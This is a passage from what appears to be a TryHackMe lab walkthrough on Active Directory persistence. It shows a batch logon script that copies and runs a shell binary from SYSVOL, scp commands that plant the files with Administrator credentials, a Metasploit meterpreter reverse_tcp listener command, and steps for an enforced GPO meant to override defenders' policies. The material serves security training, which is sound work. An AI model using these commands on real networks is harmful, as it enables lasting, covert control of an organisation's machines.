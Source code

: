 Make sure to add your username to the binary name to avoid overwriting the shells of other users. Windows allows us to execute Batch or PowerShell scripts through the logon GPO. Batch scripts are often more stable than PowerShell scripts so lets create one that will copy our executable to the host and execute it once a user authenticates. Create the following script called `<username>_script.bat` on the AttackBox:

`copy \\za.tryhackme.loc\sysvol\za.tryhackme.loc\scripts\<username>_shell.exe C:\tmp\<username>_shell.exe && timeout /t 20 && C:\tmp\<username>_shell.exe`  

You will see that the script executes three commands chained together with `&&`. The script will copy the binary from the SYSVOL directory to the local machine, then wait 20 seconds, before finally executing the binary.

We can use SCP and our Administrator credentials to copy both scripts to the SYSVOL directory:

```markup
$thm scp am0_shell.exe za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/

$thm scp am0_script.bat za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/
```

Finally, let's start our MSF listener:

`msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST persistad; set LPORT 4445;exploit"`

With our prep now complete, we can finally create the GPO that will execute it. You will need to RDP into THMWRK1 and use a runas window running as the Administrator for the next steps.

GPO Creation  

The first step uses our Domain Admin account to open the Group Policy Management snap-in:

1. In your runas-spawned terminal, type MMC and press enter.
2. Click on **File**->**Add/Remove Snap-in...**
3. Select the **Group Policy Management** snap-in and click **Add**
4. Click **OK**

You should be able to see the GPO manager:

![GPO Edit](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/62aab3368a951e8180c35bef9ed82ead.png)  

While we can technically write our contents to the Default Domain Policy, which should propagate to all AD objects, we will take a more narrow approach for the task just to show the process. You can play around afterwards to apply the changes to the entire domain.

We will write a GPO that will be applied to all Admins, so right-click on the Admins OU and select Create a GPO in this domain, and Link it here. Give your GPO a name such as `username - persisting GPO`:

![GPO edit](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/e71058947046aa9b8e77dff06292d15b.png)  

Right-click on your policy and select Enforced. This will ensure that your policy will apply, even if there is a conflicting policy. This can help to ensure our GPO takes precedence, even if the blue team has written a policy that will remove our changes. Now you can right-click on your policy and select edit:
